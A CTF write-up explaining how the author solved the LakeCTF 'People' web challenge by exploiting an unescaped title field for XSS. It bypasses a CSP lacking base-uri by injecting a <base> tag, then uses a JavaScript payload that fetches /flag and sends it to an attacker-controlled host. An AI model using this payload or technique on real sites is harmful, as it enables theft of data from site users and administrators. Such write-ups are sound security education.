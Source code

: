 ```yaml
---
layout: post
title: LakeCTF Qualifications People (Web) Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


*Note: Some of the links to external sites about the challenge in this post might become unavailable in the future.*

This is my writeup to web challenge "[People](https://ctf.polygl0ts.ch/challenges#People-18)" in [LakeCTF](https://ctf.polygl0ts.ch/) Qualifications round. LakeCTF is orgnised by EPFL's CTF team [polygl0ts](https://polygl0ts.ch/). This challenge is solved by 36 teams out of 191 teams scored at least 1 point on the scoreboard. In this challenge I exploited XSS and improper configuration of CSP, more specifically omitting `base-uri`.

The challenge has a downloadable. Examining the code and the application, users can signup a profile with bio and other information, as well as logging in. Upon logging in, user is redirected to their profile page where user information is shown. Users can also report their profile, resulting in the profile page being visited by an admin bot.

This type of web challenges with a bot visiting the page normally involves in exploiting cross-site scripting (XSS).

It appears that it is likely the XSS is on the profile page that the bot visits, and the page displays user information stored in the database. We set the information of the user when signing up the user, however, the signup endpoint is rate limited, so we cannot test many payload through that endpoint on the live website. There is another `/edit` endpoint which also enables us to update user information, and there is no rate limit on that endpoint, so we could conveniently test different input on the live website without setting up our own docker container.

Our team managed to quickly find the potential injection point on the profile page. Despite the input are escaped when rendering the page, we noticed that the title also shows data from the database, and the code does not escape it:

{% raw %}
```html
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
```
{% endraw %}

As shown above, the `safe` filter in the template disables escaping. Thus, we managed to put HTML and JavaScript code into the webpage.

## Bypass CSP

Despite we have managed to inject new tags and code, we could still not make the browser to execute our XSS code. This is because the app sets `Content-Security-Policy` HTTP header that only script tags with the defined nonce would run.

However, the CSP did not define `base-uri`, and two of the `<script>` tags on the profile page did not use full URL:

```html
<script src="/static/js/marked.min.js" nonce="qvAsaTf6Pe8F101A71nf7vOt1lktIAiK"></script>
<script src="/static/js/purify.min.js" nonce="qvAsaTf6Pe8F101A71nf7vOt1lktIAiK"></script>
```

Conveniently, the XSS injection point is in `<title>`, which is in `<head>`, thus we are able to define new base:

```html
<base href="https://my-server.example.com">
```

This will result in one of the script on the profile page to load from `https://my-server.example.com/static/js/marked.min.js` and execute.

The final info we set to user's title in their profile is `</title><base href="https://my-server.example.com"></head>`, and we serve the JavaScript payload at `https://my-server.example.com/static/js/marked.min.js`.

## Getting the Flag

Now we are able to make the profile page to pop an alert of whatever we put in the JavaScript file. However our goal is to steal the flag. The flag is accessible through the `/flag` endpoint in the webapp. The endpoint checks for `admin_token` in cookies. We might want to steal the cookies first, however, when the admin bot visits the webpage, their cookie is set to `httpOnly`, so we cannot use XSS to get the cookie. As getting the flag is our only goal, we can workaround by using `fetch` API or XMLHttpRequest. As when doing such request on the same site, cookies are sent, and flag will be retrieved.

Our final JavaScript for getting the flag and exfil is:

```javascript
fetch("http://web:8080/flag")
    .then((response) => response.text())
    .then((data) => fetch("https://my-server.example.com/xss?" + data));
```
